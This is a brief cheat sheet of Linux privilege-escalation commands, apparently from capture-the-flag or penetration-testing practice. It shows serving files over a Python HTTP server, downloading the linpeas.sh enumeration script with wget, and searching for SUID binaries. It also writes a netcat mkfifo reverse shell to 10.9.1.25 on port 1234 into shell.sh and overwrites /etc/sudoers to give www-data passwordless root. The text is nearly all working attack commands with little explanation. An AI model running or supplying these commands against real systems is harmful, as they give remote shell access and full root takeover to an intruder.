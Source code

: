 #simple python server to transfer our file :
python -m SimpleHTTPServer 8090

#Linpeas
wget ip/linpeas/linpeas.sh


#get out of the blue program :
find / -perm -u=s -type f 2>/dev/null

and try to find the loophole, program that may have root permission on running it.


## Simple privescalation :
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.1.25 1234 >/tmp/f" > shell.sh
echo "www-data ALL=(root) NOPASSWD: ALL" > /etc/sudoers